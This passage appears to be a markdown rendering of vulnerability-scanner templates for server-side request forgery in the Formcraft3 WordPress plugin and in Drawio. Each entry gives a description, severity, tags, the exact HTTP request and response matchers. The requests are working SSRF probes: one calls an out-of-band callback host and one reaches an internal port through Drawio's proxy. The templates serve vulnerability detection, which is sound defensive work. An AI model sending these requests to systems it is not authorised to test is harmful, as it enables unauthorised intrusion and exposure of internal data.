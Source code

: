 - Formcraft3 before version 3.8.2 does not validate the URL parameter in the formcraft3_get AJAX action, leading to server-side request forgery issues exploitable by unauthenticated users.
- severity - critical
- tags - wp,wp-plugin,wordpress,cve,formcraft3,wpscan,ssrf,cve2022,unauth

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-admin/admin-ajax.php?action=formcraft3_get&URL=https://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---

# Drawio <18.0.4 - Server-Side Request Forgery

## Description

- Drawio prior to 18.0.4 is vulnerable to server-side request forgery. An attacker can make a request as the server and read its contents. This can lead to a leak of sensitive information.

- severity - high
- tags - drawio,ssrf,oss,huntr,cve,cve2022

## Requests

### Step - 1

```
GET /proxy?url=http%3a//0:8080/ HTTP/1.1
Host: {{Hostname}}

```

### Matchers

**Type - word**

- part - body
- words
  1. <title>Flowchart Maker & Online Diagram Software</title>

**Type - word**
